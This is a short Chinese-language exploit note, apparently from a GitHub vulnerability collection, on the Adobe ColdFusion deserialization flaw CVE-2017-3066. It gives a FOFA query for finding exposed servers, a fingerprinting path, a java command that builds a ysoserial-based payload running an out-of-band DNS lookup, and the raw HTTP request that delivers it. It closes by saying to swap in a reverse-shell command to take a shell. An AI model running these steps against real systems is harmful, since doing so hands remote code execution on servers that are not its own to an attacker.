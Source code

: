 # Adobe ColdFusion 反序列化漏洞（CVE-2017-3066）
## 资产搜索
fofa app="Adobe-ColdFusion"
## 特征
控制台地址：`/CFIDE/administrator/index.cfm`  
![](img/tz.png)
## POC
使用[工具](file/ColdFusionPwn-0.0.1-SNAPSHOT-all.jar)生成poc：  
`java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-0.0.6-SNAPSHOT-all.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'nslookup xx.dnslog' poc.ser`  
POC作为数据包body发送给`http://your-ip/flex2gateway/amf`，Content-Type设置为application/x-amf：  
```
POST /flex2gateway/amf HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853

[...poc...]
```   
![](img/poc.png)
讲poc换成反弹shell的命令，即可获取shell